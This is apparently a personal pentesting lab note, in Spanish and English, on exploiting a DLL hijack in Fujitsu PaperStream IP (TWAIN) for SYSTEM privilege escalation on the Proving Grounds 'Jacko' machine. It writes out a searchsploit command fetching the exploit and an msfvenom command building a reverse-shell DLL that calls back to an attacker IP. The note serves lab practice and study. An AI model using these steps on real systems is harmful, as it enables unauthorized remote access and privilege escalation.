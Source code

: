 ## DESCRIPTION

A Dll Hijack vulnerability was discovered in version 1.42.0.5685 (Service Update 7) of the Fujitsu “PaperStream IP (TWAIN) software package. The FJTWSVIC.exe service running with SYSTEM privilege, processes unauthenticated messages received over the FjtwMkic_Fjicube_32 named pipe. 

Para enumerar la versión:
![[Pasted image 20230320190615.png]]

#### Mas información
* https://pentesting.zeyu2001.com/proving-grounds/get-to-work/jacko

## EXPLOITATION

1. Descargamos el exploit:

```
searchsploit -m windows/local/49382.ps1
```
2. Creamos nuestra DLL con la reverse shell:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.5 LPORT=9999 -f dll > shell.dll
```

**!!NOTA IMPORTANTE!!** 
	Cuidado si al enumerar el programa se encuetra en `Program Files (x86)` entonces tienes que crear la DLL de 32 bits

![[Pasted image 20230320190626.png]]

3. Modificamos el exploit:

![[Pasted image 20230320190912.png]]

4. Subimos el exploit a la máquina victima [[TRANSFERRING FILES]]

5. Ejecutamos el exploit DESDE UN DIRECTORIO CON PERMISOS DE ESCRITURA

![[Pasted image 20230320190803.png]]

**!!NOTA IMPORTANTE!!** 
	Necesitamos un directorio con permisos de escritura

## MACHINES

* Hack The Box: 
* Pg Practoce: Jacko
